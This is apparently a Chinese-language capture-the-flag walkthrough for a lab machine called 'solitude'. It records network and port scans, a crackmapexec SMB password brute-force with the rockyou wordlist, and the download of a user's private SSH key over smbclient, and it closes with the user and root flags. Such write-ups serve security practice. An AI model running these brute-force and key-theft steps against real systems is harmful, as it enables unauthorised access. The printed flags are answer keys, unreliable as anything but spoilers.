






## 网段扫描
```
root@LingMj:~/xxoo/jarjar# arp-scan -l
Interface: eth0, type: EN10MB, MAC: 00:0c:29:d1:27:55, IPv4: 192.168.137.190
Starting arp-scan 1.10.0 with 256 hosts (https://github.com/royhills/arp-scan)
192.168.137.1	3e:21:9c:12:bd:a3	(Unknown: locally administered)
192.168.137.66	a0:78:17:62:e5:0a	Apple, Inc.
192.168.137.100	3e:21:9c:12:bd:a3	(Unknown: locally administered)

6 packets received by filter, 0 packets dropped by kernel
Ending arp-scan 1.10.0: 256 hosts scanned in 2.040 seconds (125.49 hosts/sec). 3 responded
```

## 端口扫描

```
root@LingMj:~/xxoo/jarjar# nmap  -p- -sV -sC 192.168.137.100    
Starting Nmap 7.95 ( https://nmap.org ) at 2025-03-02 18:38 EST
Nmap scan report for solitude.mshome.net (192.168.137.100)
Host is up (0.0075s latency).
Not shown: 65531 closed tcp ports (reset)
PORT    STATE SERVICE     VERSION
22/tcp  open  ssh         OpenSSH 8.2p1 Ubuntu 4ubuntu0.11 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 2b:c7:6c:06:c7:80:41:bc:cb:dc:fe:d6:e8:85:db:b0 (RSA)
|   256 61:d1:67:f9:8f:99:62:9b:d4:9a:70:19:ff:78:bd:77 (ECDSA)
|_  256 2b:6e:53:ab:ac:68:ca:78:a7:d6:2f:34:65:e8:5d:17 (ED25519)
80/tcp  open  http        Apache httpd 2.4.41 ((Ubuntu))
|_http-title: Apache2 Ubuntu Default Page: It works
|_http-server-header: Apache/2.4.41 (Ubuntu)
139/tcp open  netbios-ssn Samba smbd 4
445/tcp open  netbios-ssn Samba smbd 4
MAC Address: 3E:21:9C:12:BD:A3 (Unknown)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required
|_nbstat: NetBIOS name: SOLITUDE, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)
| smb2-time: 
|   date: 2025-03-02T23:38:56
|_  start_date: N/A

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 24.27 seconds
```

## 获取webshell
  

>crackmapexec smb 192.168.137.100 -u 'garret' -p /usr/share/wordlists/rockyou.txt
>

  


```
root@LingMj:~/xxoo/jarjar# smbclient //192.168.137.100/Shared -U garret
Password for [WORKGROUP\garret]:
Try "help" to get a list of possible commands.
smb: \> cd .ssh
smb: \.ssh\> dir
  .                                   D        0  Wed Nov 27 02:10:21 2024
  ..                                  D        0  Wed Nov 27 02:10:21 2024
  id_rsa.pub                          N      569  Wed Nov 27 02:10:21 2024
  id_rsa                              N     2602  Wed Nov 27 02:10:21 2024

		12791912 blocks of size 1024. 4834508 blocks available
smb: \.ssh\> get id_rsa
getting file \.ssh\id_rsa of size 2602 as id_rsa (16.0 KiloBytes/sec) (average 16.0 KiloBytes/sec)
smb: \.ssh\> 
```
  

## 提权

  
  
  


>没啥好说的难度整体为low，2分钟解决了
>

>userflag:9c916bc5d4735be04f362d4f86d084a1
>
>rootflag:d4c2e889597519b02fde24079a1ac146
>